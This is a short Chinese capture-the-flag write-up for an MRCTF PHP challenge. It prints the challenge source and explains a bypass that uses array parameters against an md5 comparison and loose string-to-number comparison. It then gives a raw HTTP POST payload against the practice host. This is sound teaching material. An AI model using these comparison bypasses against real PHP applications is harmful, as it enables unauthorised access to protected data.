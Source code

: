 ```php
<?php
include 'flag.php';
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id'];
    $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd))
            {
                 if($passwd==1234567)
                 {
                     echo 'Good Job!';
                     highlight_file('flag.php');
                     die('By Retr_0');
                 }
                 else
                 {
                     echo "can you think twice??";
                 }
            }
            else{
                echo 'You can not get it !';
            }

        }
        else{
            die('only one way to get the flag');
        }
}
    else {
        echo "You are not a real hacker!";
    }
}
else{
    die('Please input first');
}
} 
```

这道题没啥难度，主要是**md5的弱等于绕过采用数组绕过**，以及**字符串与数字的弱等于**

### payload

```http
POST /?gg[]=1&id[]=2 HTTP/1.1
Host: a1d7ece0-2608-4207-ad35-62424424bed4.node4.buuoj.cn
Content-Length: 15
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://a1d7ece0-2608-4207-ad35-62424424bed4.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://a1d7ece0-2608-4207-ad35-62424424bed4.node4.buuoj.cn/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

```